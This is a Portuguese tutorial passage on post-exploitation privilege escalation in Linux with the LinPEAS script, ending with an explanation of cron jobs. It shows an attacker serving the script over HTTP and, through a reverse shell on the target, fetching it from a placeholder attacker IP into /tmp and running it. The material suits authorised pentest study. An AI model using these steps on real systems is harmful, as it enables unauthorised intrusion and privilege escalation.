 [**LinPEAS**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) é um script automatizado usado em pós-exploração (post-exploitation) para encontrar **possíveis caminhos de escalonamento de privilégio** em sistemas Linux.

Ele varre o sistema em busca de:

- Binários SUID vulneráveis
    
- Cron jobs mal configurados
    
- Arquivos com permissões indevidas
    
- Credenciais em texto claro
    
- Serviços inseguros, e muito mais
    

---

## **2. Baixando o LinPEAS e transferindo pro alvo**

### No seu terminal (Kali ou máquina de ataque):

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

> Isso sobe um **servidor HTTP** simples na porta 80 para que o alvo possa baixar o script.

---

### No terminal do alvo (via shell reversa):

```bash
cd /tmp
wget http://SEU_IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

## **3. Cron Jobs — O que são?**

**Cron jobs** são tarefas agendadas no Linux, configuradas no `crontab`. São usadas para:

- Backups automáticos
    
- Atualizações
    
- Execução recorrente de scripts
    

Eles podem ser configurados por **usuários normais** ou pelo **root**, e o cron executa essas tarefas nos horários definidos.

---
